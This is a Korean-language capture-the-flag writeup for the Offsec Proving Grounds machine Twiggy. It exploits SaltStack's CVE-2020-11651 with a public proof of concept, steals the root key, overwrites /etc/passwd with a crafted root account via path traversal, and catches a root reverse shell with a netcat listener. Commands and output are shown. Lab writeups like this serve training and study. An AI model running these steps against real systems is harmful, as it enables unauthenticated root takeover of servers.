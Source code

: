 ```yaml
---
title: "Proving grounds Practice: Twiggy 문제풀이"
excerpt: "Offsec proving grounds practice linux machine writeup"
categories: pg_practice
tags: 
- CTF
- Offsec labs
- OSCP
- Writeup
- Linux
- pg-practice
typora-root-url: ../../
date: 2025-08-25
last_modified_at: 2025-08-26
---
```


## Nmap

```sh
$ nmap -p- -Pn -n --open 192.168.58.62
[ . . . ]
PORT     STATE SERVICE
22/tcp   open  ssh
53/tcp   open  domain
80/tcp   open  http
4505/tcp open  unknown
4506/tcp open  unknown
8000/tcp open  http-alt
```

## Web
### PORT: 80

![img](/images/2025-08-25-twiggy/image.png)

### PORT: 8000

![img](/images/2025-08-25-twiggy/image-1.png)

The SaltStack Salt REST API 가 실행중인 것을 확인

![img](/images/2025-08-25-twiggy/image-2.png)



## Vulnerability Analysis
### CVE-2020-11651
[Saltstack 3000.1 - Remote Code Execution](https://www.exploit-db.com/exploits/48421)

- CVE-2020-11651은 SaltStack Salt라는 IT 자동화 및 원격 관리 도구에서 발견된 인증 우회(authentication bypass) 취약점

- 영향을 받는 버전: **2019.2.4 이전 및 3000 이전 버전의 SaltStack Salt**

- SaltStack의 salt-master 프로세스 내 ClearFuncs 클래스에서 메서드 호출을 제대로 검증하지 않아 발생
- 공격자는 인증 절차 없이 특정 메서드에 접근 가능
- 이를 통해 공격자는 salt master에서 사용자 토큰(root 권한을 가진 키)을 탈취할 수 있으며, salt minion(관리 대상 서버)에서 임의의 명령어를 실행할 수 있게 된다.

- CVSS v3 기준 기본 점수 10.0 (치명적, Critical)
- 공격자가 네트워크에서 Salt Master의 **포트 4505 또는 4506**에 접속할 수 있으면 공격 가능

## Exploitation
[used exploit](https://github.com/jasperla/CVE-2020-11651-poc)


해당 익스플로잇을 사용하기 위해서 `salt` 설치가 필요하다.
```sh
# 가상환경에서 salt 설치
python3 -m venv ~/salt_env
source ~/salt_env/bin/activate
pip install salt

# 의존성 문제 발생 시 아래 목록 추가 설치
pip3 install pyzmq PyYAML pycrypto msgpack jinja2 psutil tornado

```

exploit 실행
```sh
(salt)?(kali?kali)-[~/Desktop]
$ python3 -W ignore exploit.py --master 192.168.53.62
[!] Please only use this script to verify you have correctly patched systems you have permission to access. Hit ^C to abort.
/home/kali/salt/lib/python3.13/site-packages/salt/transport/client.py:28: DeprecationWarning: This module is deprecated. Please use salt.channel.client instead.
  warn_until(
[+] Checking salt-master (192.168.53.62:4506) status... ONLINE
[+] Checking if vulnerable to CVE-2020-11651... YES
[*] root key obtained: YW+X7MyAJUrsskh2mt7TkF3FvyJaWLbGfylEiu5AdjFu9Rr8ggmt+HuXNPmPn9rfU1T7rmGnPCY=

---

python exploit.py --master 192.168.174.62 --read /etc/passwd
```

![img](/images/2025-08-25-twiggy/image-3.png)

`/etc/passwd` 파일을 읽고 쓰는 것이 가능하다. 

초기 침투에는 2가지 방법이 있는데 첫번째는 새로운 유저를 루트권한으로 생성 후 접근하는 것이고 두번째는 리버스쉘을 실행시켜 쉘을 획득하는 방법이 있다. 

먼저 첫번째 방법으로 익스플로잇 시도.

### Create new user

```sh
openssl passwd hacked
$1$iBeMKMaU$.O3VYqCZxUvapPL.OQ97/1
```

`openssl`을 이용해 `passwd`에 들어갈 패스워드 `hacked`를 해시화 해준다.

이후 `passwd`의 형식에 맞게 위 해시를 이용해 계정 정보를 만들어준다.

```text
hacker:$1$iBeMKMaU$.O3VYqCZxUvapPL.OQ97/1:0:0:root:/root:/bin/bash
```

**Writing /etc/passwd file**

익스플로잇의 업로드 기능을 이용해 조작한 `passwd` 파일을 타겟 호스트에 업로드한다.
```sh
(salt)?(kali?kali)-[~/Desktop]
$ python3 -W ignore exploit.py --master 192.168.53.62 --upload-src passwd --upload-dest ../../../../../../../../../../../../etc/passwd

```

- `passwd` 업로드
![img](/images/2025-08-25-twiggy/image-6.png)

**Verify the user existence**

- 수정된 `passwd` -> `hacker:hacked` 계정이 생성된 모습
![img](/images/2025-08-25-twiggy/image-5.png)



**Root 권한 획득**

- 이후 ssh 접근을 시도해 루트 권한을 획득했다.
![img](/images/2025-08-25-twiggy/image-4.png)


### Reverse Shell
주의할 점: 리버스쉘은 **4505 또는 4506 포트** 에서만 가능하다.

- 리버스 쉘을 실행시켜 루트 권한 획득에 성공했다.
![리버스쉘](/images/2025-08-25-twiggy/image-7.png)

루트 쉘 획득
```bash
┌──(kali㉿kali)-[~/Desktop/offsec]
└─$ nc -lnvp 4505
listening on [any] 4505 ...
connect to [192.168.45.198] from (UNKNOWN) [192.168.186.62] 36348

[root@twiggy root]# id; hostname; ip a;
id; hostname; ip a;
uid=0(root) gid=0(root) groups=0(root)
twiggy
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
3: ens160: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 00:50:56:ab:1f:b0 brd ff:ff:ff:ff:ff:ff
    inet 192.168.186.62/24 brd 192.168.186.255 scope global ens160
       valid_lft forever preferred_lft forever

```